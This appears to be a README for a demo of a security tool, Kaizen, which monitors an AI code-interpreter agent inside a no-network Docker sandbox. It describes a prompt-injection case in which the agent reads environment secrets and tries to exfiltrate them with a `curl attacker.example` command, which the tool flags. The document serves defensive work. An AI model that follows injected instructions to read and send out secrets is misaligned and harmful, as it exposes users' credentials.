

# A Docker sandbox + Kaizen

**Any sandbox contains the blast. Kaizen tells you the agent turned malicious.**

A code-interpreter agent runs generated code inside a locked-down Docker container
(`--network none`, no egress, no host access). It gets prompt-injected into reading
secrets and exfiltrating. Docker contains it, the exfil cannot leave, but the container
alone cannot tell you the agent was compromised. Kaizen can.



## What this demo shows

| Action | Docker sandbox | Kaizen |
| --- | --- | --- |
| read environment secrets | allowed inside the box | **flagged: undeclared `read_secrets`** |
| `curl attacker.example` | **blocked** (network none) | **flagged: undeclared `exfiltrate` + reasoned malicious** |

Even with egress fully blocked, the agent still read secrets and tried to exfiltrate.
A sandbox that only isolates would report nothing. Kaizen flags both undeclared actions
and the reasoning check explains why: *"reading secrets and exfiltration, not aligned
with its declared purpose."*

## Run it

```bash
pip install kaizen-security
# Docker running locally; export your key from the console
export KAIZEN_API_KEY=kz_live_...
python run.py
```

For the Stage 2 reasoning check, add your model key in the console under
**Settings, Reasoning model**.

Full write-up: <https://docs.getkaizen.io/case-studies/docker-sandbox/>
